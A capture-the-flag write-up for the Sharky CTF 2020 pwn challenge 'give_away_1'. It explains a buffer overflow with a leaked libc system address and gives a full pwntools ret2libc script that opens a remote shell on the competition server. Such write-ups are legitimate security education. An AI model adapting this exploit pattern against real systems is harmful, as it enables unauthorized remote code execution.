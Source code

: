 ```yaml
---
title: "Sharky CTF 2020: give_away_1 (Pwn)"
layout: post
date: 2020-05-12
tags:
- CTF
- writeup
- Sharky CTF 2020
- Pwn
comments: true
---
```


> Make good use of this gracious give away.
>
> Creator: Hackhim
>
> [give\_away\_1](/files/give_away_1)
>
> [libc-2.27.so](/files/libc-2.27.so)

As with most pwn challenges, let's start off by checking what kind of binary we're given.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ file give_away_1

give_away_1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=2b72e93281e97df94bf8362d5cf5a29f55accb8a, not stripped
```

Okay, it's just a 32 bit ELF binary. Let's run it to get a better idea of what it does.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ ./give_away_1
Give away: 0xf7dbad10

```

Seems like it just prints a hex value and gets some input from us. Great. Now let's see how well it handles a large input.

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ python -c 'print "A"*1024' | ./give_away_1
Give away: 0xf7e18d10
Segmentation fault (core dumped)
```

Oh a [segmentation fault](https://en.wikipedia.org/wiki/Segmentation_fault), looks like we potentially have a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) vulnerability here. Let's open up the binary in IDA and see what further insights we can gather. Currently, we still don't know what that hex value is.

```
mov     eax, ds:(system_ptr - 1FBCh)[ebx]
push    eax
lea     eax, (aGiveAwayP - 1FBCh)[ebx] ; "Give away: %p\n"
push    eax             ; format
call    _printf ; printf("Give away: %p\n", system_ptr);
```

Oh wow is the hex value given to us actually a reference to `system`?

```
.got:00001FDC system_ptr      dd offset system ; DATA XREF: main+22↑r
```

Awesome, looks like we can combine this with the buffer overflow vulnerability and call `system("/bin/sh")` to get a shell. Where are we going to get the `/bin/sh` string from? We still haven't made use of the `libc-2.27.so` right?

```
vagrant@ctf:/vagrant/challenges/sharky/give_away_one$ grep -obUaP "/bin/sh\x00" libc-2.27.so
1564879:/bin/sh
```

Bingo! So all we have to do is to calculate the address to `/bin/sh` and use that as a parameter for our call to `system`.

Consolidating all the information we have so far, we can conclude that the payload should probably look something like this:

```
<padding of ? bytes><address(system)><padding of 4 bytes><address("/bin/sh\x00")>
```

The only information we're lacking is the length of the padding. We can easily do this with the `cyclic` utility included with [pwndbg](https://github.com/pwndbg/pwndbg).

<script id="asciicast-wH3QaSI2bviasewd7uSz4E0Hd" src="https://asciinema.org/a/wH3QaSI2bviasewd7uSz4E0Hd.js" async></script>

> TL;DR: Padding is 36

Okay, great. Now all we need to do is to write a script to solve this.

```python
#! /usr/bin/python2

from pwn import *

HOST = 'sharkyctf.xyz'
PORT = 20334
BINARY = './give_away_1'

elf = context.binary = ELF(BINARY)
libc = ELF('libc-2.27.so')

# Start connection

r = remote(HOST, PORT)

# Stage 1: Get system@libc

libc_system = int(r.recvline().split()[2][2:], 16)
log.info('Leaked libc_system: 0x{:x}'.format(libc_system))

# Stage 2: Build ROP Chain

libc.address = libc_system - libc.symbols.system
log.info('Calculated libc base address : 0x{:x}'.format(libc.address))

binsh = libc.search("/bin/sh\x00").next()
log.info('binsh: 0x{:x}'.format(binsh))

rop = ROP([libc, elf])
rop.system(binsh)

log.success('Generated ROP Chain')
log.success(rop.dump())

# Stage 3: Pwn

r.sendline(fit({ 36: rop.chain() }))

log.success('Sent payload')
log.progress('Spawning a shell...')

r.interactive()
```

Let's see it in action!

<script id="asciicast-329253" src="https://asciinema.org/a/329253.js" async></script>

Flag: `shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}`

